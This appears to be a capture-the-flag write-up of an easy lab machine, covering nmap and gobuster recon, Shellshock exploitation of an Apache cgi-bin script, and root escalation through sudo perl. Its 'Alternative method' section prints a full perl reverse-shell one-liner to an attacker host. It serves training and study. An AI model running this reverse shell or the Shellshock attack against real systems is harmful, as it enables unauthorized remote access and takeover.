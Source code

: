 # **Recon**

`nmap` routine shows 2 TCP ports open on the target

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094035274/c913388e-a8d8-40b3-af52-2428eaa47c3b.png align="center")

directory enumeration on the Apache server is performed via `gobuster`

> Different wordlists may impact enumeration results

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094170011/98440997-56ad-4a85-affb-ab967b6c23ed.png align="center")

> `/cgi-bin` directory was discovered however the directory itself is not accessible (error code 403)

while we get a `403` trying to access `/cgi-bin` we could do a further dirbust to see if subsequent directories can be accessed

> always enumerate harder

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094267335/d9239033-d3a2-4956-a592-2088a5ce4f9a.png align="left")

> gobuster `-x` allows appending of file types, in this case according to the hints `/cgi-bin` is where apache stores scripts (`.pl, .sh` etc.) ref: [cgi enum wordlist](https://github.com/orwagodfather/WordList/blob/main/cgi-bin.txt) for more possible scripts that can be found

# Exploit

we notice that the Apache server is running an older version during recon phase, also given we find `.sh` shell scripts, we piece together two main keywords "apache" "shell script" to find the [CVE](https://www.exploit-db.com/exploits/34900) "Shellshock"

to test whether certain exploits are applicable we can first attempt to test our hypothesis using `nmap` scripts

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094289067/9b6d360f-308e-4739-aeeb-98631bf6854f.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094294056/cf79f0d1-554f-4da4-ac39-03e5cdd1f9ca.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094298992/86a826fc-8045-42d9-bdc4-1a32413e7009.png align="left")

knowing the server is indeed vulnerable, we can try to run to exploit to gain foothold

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094315245/6b8f3624-178d-43b9-b516-fc9f41fe0576.png align="left")

> some errors were caught and after some "try hardering" it was related to the exploit being written in python2

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094380361/6aea2aab-9941-4035-b33f-e9a5cabbf052.png align="left")

after successfully configuring the payload, we can access the user flag

# Priv Esc

due to the box being an easy one, this process is very much a low-hanging fruit

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094436484/b9e595fa-710c-49af-8dc1-45d94c88dcbc.png align="center")

a quick GTFObins tour and we can successfully escalate to root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094449118/924b1f2e-e697-4afa-853b-4455d70e233a.png align="left")

## Alternative method

```bash
sudo perl -e 'use Socket;$i="$LHOST";$p=$LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> this method spawns a reverse shell on your attacking machine instead

# Notes

> credits: ippsec [walkthrough](https://www.youtube.com/watch?v=IBlTdguhgfY)

* ## SSH, Apache version enumeration
    
    * crossref package version [site](https://packages.ubuntu.com) against different distro to enumerate which distro is being run
        
    * version last updated date = likely when the system was last updated 
        
* ## HTTP response `Content-Type`
    
    when accessing discovered scripts change the type to `text/plain` so the browser can display the content of the script. in the case where the browser cannot understand the extension, the content will not be displayed when visiting the site #http\_content-type
    
* ## HTTP/web-related `nmap` NSE script debugging
    
    in the case of `nmap` scripts failing, use burp proxy listener:
    
    * bind `localhost:8081` to `$target:$target_port` and `nmap` the `localhost`
        
    * start intercepting and debug the HTTP requests `nmap` sends
        
    * modify nse script accordingly #nmap
        
    
* ## RFC shenanigans
    
    * `nmap` shellshock scripts fail to list `cmd` response due to [RFC standards](https://www.rfc-editor.org/rfc/rfc9110.html): RFC HTTP response standards consist of `\r\n` delimiter between header and body
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094558051/75af4457-eead-42bd-b0d7-ceed686d610e.png align="left")
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094567545/d4c2a9c0-35bf-4f2c-b12b-e45f865485a5.png align="left")
        
        > `echo;` inserts a new line in the response, separating the header from the body (`ls` result) `/bin/ls` is used as `ls` returns negative results (alias/PATH not set)
